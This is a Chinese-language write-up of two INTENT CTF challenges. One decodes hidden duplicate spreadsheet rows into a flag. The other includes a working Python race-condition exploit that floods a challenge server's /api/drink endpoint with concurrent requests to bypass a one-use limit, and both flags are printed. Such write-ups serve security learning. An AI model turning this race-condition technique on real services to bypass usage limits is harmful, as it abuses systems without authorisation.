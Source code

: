 # INTENT CTF
###### tags: `CTF`

## forensics
### Down The Rabbit Hole
![](https://i.imgur.com/4YvjK7V.png =300x)

題目給了一個 xlsx 檔案，看到就是直接 zip 解壓縮

在裡面的 `/xl/worksheets` 資料夾裡可以看到有四張 xml，其中第四張有特別的資訊

```
Now go back and find the super DUPer hidden rows
```

觀察了一下前三張 xml 後，發現有些地方會有重複的 row，比如說第一張的 row 109

![](https://i.imgur.com/3br4hpe.png)

經過初步測試後，發現拿前面的值來作為 ascii 解讀的話，似乎就是 flag，於是我寫了一個程式自動解碼

:::spoiler solve.py
```python=
import re

flag = ""
for filename in ["sheet1.xml", "sheet2.xml", "sheet3.xml"]:
    with open(f"./extract/xl/worksheets/{filename}") as fh:
        data = fh.read()

    for i in range(100, 201):
        numbers = re.findall(f"<c r=\"A{i}\"><v>(\d*)</v></c>", data)
        print(i, numbers)
        if(len(numbers) >= 2):
            flag += chr(int(numbers[0]))
    
print(flag)
```
:::

![](https://i.imgur.com/TkTlBoz.png)

INTENT{u_f0und_w0nd3rl2nd}

## Web
### Drink Me
![](https://i.imgur.com/wHPIvto.png =300x)

連進去後，發現是一個小遊戲，要想辦法讓主角變小進門

![](https://i.imgur.com/Hq8iDSz.png =700x)

基本上可以做的事就是點鑰匙進門、喝藥水、reset session，而藥水可以縮小，但只能用一次，而在正常玩法下，基本上是沒辦法進門的

在觀察網路流量後，發現基本上會有以下 api

```=
GET /                沒有作用
POST /api/drink      喝飲料，在一般遊玩下會傳送 {shrink: "2x"} 的 data 但實際修改沒任何作用
GET /api/getsize     取得角色大小，如果在沒有 cookie 的情況下會產生新 cookie
POST /api/usekey     使用鑰匙，在一般遊玩下會有 {key: "open door"} 的 data 但也沒有任何作用
GET /api/reset       重制，用來清掉 cookie
```

在調整封包上沒有什麼作用，所以暫時陷入膠著

後來在查看網頁原始碼，發現有一個 main.js 引用，並且在 main.js 發現了以下字串
```javascript=
// Follow me for more ;)
// https://github.com/AbsalomNargilotLTD
```

進去 github 後，發現就只有一個專案，裡面是伺服器的原始碼，也發現在前面階段修改 data 區塊無效是正常的因為根本不會管

而後在 `database.js` 和 `routes/index.js` 中發現一個有趣的地方，變小和設定喝過這兩個動作是分開的，且是先做計算變小之後才設定喝過

![](https://i.imgur.com/QIHnQ8N.png =500x)

![](https://i.imgur.com/A4pItSt.png =700x)

一個大膽的想法誕生，是不是可以趁伺服器還在處理變小但還沒處理設定喝過的情況下，再多送一個封包，讓伺服器重複計算變小這件事情，換言之就叫做 racing condition

另外也可以看到，需要縮小到 1/16 倍之後才能拿到 flag，也就是說要成功 4 次

![](https://i.imgur.com/mBXSKIl.png =600x)

我參考了 multiprocessing 文件的程式碼後，改成了 exploit

:::spoiler solve.py
```python=
import requests
from multiprocessing import Pool

url = "https://intent-drink-me.chals.io/"
session = ""

def send_drink_requests(s):
    res = requests.post(f"{url}api/drink", cookies={"session": s})
    return res.status_code

while(True):
    res = requests.get("https://intent-drink-me.chals.io/api/getsize")
    session = res.cookies["session"]
    status = []
    pools = 10
    with Pool(pools) as p:
        status.append(p.map(send_drink_requests, [session]*pools))
    print(status)
    # print(f"success: {len([s for s in status if s != 401])} / {pools}")

    res = requests.get("https://intent-drink-me.chals.io/api/getsize", cookies={"session": session})
    print(res.json())

    res = requests.post("https://intent-drink-me.chals.io/api/usekey", cookies={"session": session})
    print(res.text)

    if("big" not in res.text):
        break

    requests.get("https://intent-drink-me.chals.io/api/reset", cookies={"session": session})
    print("reseting...")
    print()
```
:::

在執行時會嘗試一次送出 10 個 request 給伺服器處理，在測試時恰巧執行 2 次成功

![](https://i.imgur.com/ZDRe8NK.png)

INTENT{wh47_a_cur10u5_f331ln9!}